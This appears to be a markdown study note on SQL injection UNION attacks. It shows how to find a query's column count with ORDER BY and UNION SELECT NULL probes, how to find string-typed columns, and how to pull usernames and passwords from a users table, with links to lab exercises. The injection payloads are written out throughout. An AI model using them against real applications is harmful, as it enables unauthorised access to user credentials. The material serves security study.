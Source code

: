 ## union  attack use case briefly
<br>

When an application is **vulnerable to SQL injection** and the** results of the query are returned within the application's responses**, the `UNION` keyword ***can be used to retrieve data from other tables within the database***. This results in an SQL injection UNION attack.

<br>

## Union attack Requisites:
1. Have sql injection point
2. The sql query result must show in the response or response page.

<br>



### union attack use case 1-1 :    Determining the number of columns required in an SQL injection UNION attack

How to get column numbers in a specific table without entering the database?
One method is using order by.


```sql
select * from test_table order by 1
select * from test_table order by 1,2
select * from test_table order by 1,2,3
select * from test_table order by 1,2,3,4.......
```

If `test_table` only have 3 columns, then the below sql query will cause an database error:
`The ORDER BY position number 4 is out of range of the number of items in the select list.`

```sql
select * from test_table order by 1,2,3,4
```
Then based on the error and number, we can know how much columns have in one table.

<br>

The other method is using `UNION` keyword.

similar to `order by`, `UNION` adds `UNION` statement after one sql query.
For instance:
```sql
select * from test_table union select null
select * from test_table union select null,null
select * from test_table union select null,null,null
select * from test_table union select null,null,null,null......
```

If the `test_table` only have 3 columns,then sql query 
```sql
select * from test_table union select null,null,null,null
select * from test_table union select null,null
select * from test_table union select null
```
will cause an database error.

#### exercise about this topic
[[lab3]]

<br>

<br>


###  Union select use case 1-2: Finding columns with a useful data type in an SQL injection UNION attack

Now we know how many columns in the table. But we don't know each column's data type yet. How to know that ?

Suppose we have four columns.And suppose we need to know which column's data type is string.
<br>

```sql
union select 'a',null,null,null 
union select null,'a',null,null 
union select null,null,'a',null 
union select null,null,null,'a' 
```


If the data type of a column is not compatible with string data, the injected query will cause a database error, such as:

`Conversion failed when converting the varchar value 'a' to data type int.`

**If an error does not occur**, and the **application's response contains some additional content including the injected string value**, then the relevant column is suitable for retrieving string data.


#### exercise about this topic

[[lab4]]

<br>

### Use case 1-3:  Using an SQL injection UNION attack to retrieve interesting data

If union selected column numbers and data type same as current table,then we can add a union select statement to retrieve other table's data.

```sql
select col1,col2 from test_table where category = 'Gifts' 
union select username,password from users
```
Suppose test_table's col1,col2 are string type. In this case,we can get all user's username and password.

#### exercise about this topic

[[lab5]]


#union_attack